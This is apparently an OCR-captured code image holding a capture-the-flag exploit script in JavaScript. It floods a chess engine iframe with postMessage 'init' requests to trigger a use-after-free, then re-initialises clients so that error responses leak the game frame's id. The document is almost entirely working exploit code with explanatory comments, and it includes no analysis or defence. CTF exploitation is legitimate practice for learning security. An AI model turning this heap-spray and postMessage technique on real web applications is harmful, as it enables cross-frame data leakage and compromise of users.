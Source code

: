 ```html

    async function main() {
        // Wait for the ready message to get sent to us from the engine
        let engine = await new Promise(res => { onmessage = (e) => res(e.source) })
        
        // Spam the engine with init requests from different clients
        // (each one uses a different id)
        for (let i = 0; i < lets.length; i++) {
            // This will trigger the UAF because 
            // it has data field set to a valid chess string
            // (it won't use the default start string) 
            // To increase chances of success, we use a valid
            // chess string that is the same length as 
            // game.js's id.
            engine.postMessage({
                type: 'init', 
                data: '8/8/8/8/8/8/8/8 ', 
                id: lets[i],
            }, '*')
    
            await new Promise(res => setTimeout(res, 10))

            // This won't trigger the UAF, but it's
            // part of the fuzzing routine that I found to work.
            // You know what they say, "garbage in, flag out"
            engine.postMessage({
                type: 'init', 
                id: lets[i].repeat(16)
            }, '*') 

            await new Promise(res => setTimeout(res, 10))
        }

        await new Promise(res => setTimeout(res, 10))

        // Send the ready message to game.js so that
        // it will send its own init message to engine,
        // allocating its id.
        game.contentWindow.postMessage('ready', '*')

        await new Promise(res => setTimeout(res, 100))

        // Now re-init all the clients that had the UAF
        // Hopefully one of them had their UAF
        // overwritten by game.js's id.
        for (let i = 0; i < lets.length; i++) {
            engine.postMessage({
                type: 'init',
                id: lets[i]
            }, '*')
        }
    }

    // Print out all the error responses from 
    // our re-inits. If things worked out for us,
    // one of them will contain game.js's id
    addEventListener('message', (e) => {
        if (e.data.type === "error") {
            console.log(e.data.id, e.data.data);
        }
    })

    main()
```